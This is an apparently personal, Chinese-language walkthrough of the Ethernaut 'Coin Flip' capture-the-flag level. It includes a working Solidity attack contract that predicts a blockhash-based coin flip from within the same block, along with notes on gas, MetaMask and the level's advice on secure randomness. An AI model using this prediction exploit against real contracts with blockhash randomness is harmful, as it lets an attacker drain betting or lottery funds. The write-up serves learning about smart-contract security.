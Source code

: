 又只能看着wp做，/(ㄒoㄒ)/~~

但却是学到东西了：

```markdown
本關合約的問題源於使用block number作為隨機數，並且無預計到**呼叫者是智能合約**而非個人錢包的情況。只要使用智能合約呼叫即可保證呼叫者與被呼叫者block.number會相同，從而先計算出結果。
```





题目给的hint：

```
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the "?" page above in the top right corner menu, section "Beyond the console"
```





学习了。用合约（区块）来调用，而不是手动调用。

```solidity
pragma solidity ^0.6.0;

import './SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }
}
```



这里要注意环境的injector，还有用 estimated gas。。。

![image-20250228203604935](./Coin Flip/images/image-20250228203604935.png)



然后开始guess。

注意，以太坊是15秒生成一个区块，所以我们隔15秒guess一次。

![image-20250228203633734](./Coin Flip/images/image-20250228203633734.png)



每次guess也要与metamask交互。我的理解：跨合约交互都要付gas？



点十次后，再回题目查看：

![image-20250228204608335](./Coin Flip/images/image-20250228204608335.png)

可以看到连续十次了，submit instance即可。

但submit instance的时候发现network fee不够。。。麻了。。。）



ok，隔一天来就能成功submit了~



```
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
```


